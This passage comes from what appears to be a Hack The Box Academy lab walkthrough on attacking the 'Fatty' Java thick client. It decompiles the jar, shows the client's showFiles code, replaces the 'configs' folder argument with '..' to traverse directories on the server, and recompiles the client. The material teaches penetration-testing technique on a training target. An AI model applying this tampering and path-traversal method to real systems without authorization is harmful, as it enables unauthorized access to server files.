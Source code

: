 </code></pre>
<p><img alt="passwd" src="https://academy.hackthebox.com/storage/modules/113/thick_clients_web/passwd.png"/></p>
<p>The server filters out the <code>/</code> character from the input. Let's decompile the application using <a href="http://java-decompiler.github.io/">JD-GUI</a>, by dragging and dropping the <code>fatty-client-new.jar</code> onto the <code>jd-gui</code>.</p>
<p><img alt="jdgui" src="https://academy.hackthebox.com/storage/modules/113/thick_clients_web/jdgui.png"/></p>
<p>Save the source code by pressing the <code>Save All Sources</code> option in <code>jdgui</code>. Decompress the <code>fatty-client-new.jar.src.zip</code> by right-clicking and selecting <code>Extract files</code>. The file <code>fatty-client-new.jar.src/htb/fatty/client/methods/Invoker.java</code> handles the application features. Reading its content reveals the following code.</p>
<pre><code class="language-java">public String showFiles(String folder) throws MessageParseException, MessageBuildException, IOException {
    String methodName = (new Object() {
      
      }).getClass().getEnclosingMethod().getName();
    logger.logInfo("[+] Method '" + methodName + "' was called by user '" + this.user.getUsername() + "'.");
    if (AccessCheck.checkAccess(methodName, this.user))
      return "Error: Method '" + methodName + "' is not allowed for this user account"; 
    this.action = new ActionMessage(this.sessionID, "files");
    this.action.addArgument(folder);
    sendAndRecv();
    if (this.response.hasError())
      return "Error: Your action caused an error on the application server!"; 
    return this.response.getContentAsString();
  }
</code></pre>
<p>The <code>showFiles</code> function takes in one argument for the folder name and then sends the data to the server using the <code>sendAndRecv()</code> call. The file <code>fatty-client-new.jar.src/htb/fatty/client/gui/ClientGuiTest.java</code> sets the folder option. Let's read its content.</p>
<pre><code class="language-java">configs.addActionListener(new ActionListener() {
          public void actionPerformed(ActionEvent e) {
            String response = "";
            ClientGuiTest.this.currentFolder = "configs";
            try {
              response = ClientGuiTest.this.invoker.showFiles("configs");
            } catch (MessageBuildException|htb.fatty.shared.message.MessageParseException e1) {
              JOptionPane.showMessageDialog(controlPanel, "Failure during message building/parsing.", "Error", 0);
            } catch (IOException e2) {
              JOptionPane.showMessageDialog(controlPanel, "Unable to contact the server. If this problem remains, please close and reopen the client.", "Error", 0);
            } 
            textPane.setText(response);
          }
        });
</code></pre>
<p>We can replace the <code>configs</code> folder name with <code>..</code> as follows.</p>
<pre><code class="language-java">ClientGuiTest.this.currentFolder = "..";
  try {
    response = ClientGuiTest.this.invoker.showFiles("..");
</code></pre>
<p>Next, compile the <code>ClientGuiTest.Java</code> file.</p>
<pre><code class="language-powershell-session">C:\&gt; javac -cp fatty-client-new.jar fatty-client-new.jar.src\htb\fatty\client\gui\ClientGuiTest.java
</code></pre>
<p>This generates several class files. Let's create a new folder and extract the contents of <code>fatty-client-new.jar</code> into it.</p>
<pre><code class="language-powershell-session">C:\&gt; mkdir raw
C:\&gt; cp fatty-client-new.jar raw\fatty-client-new-2.jar
</code></pre>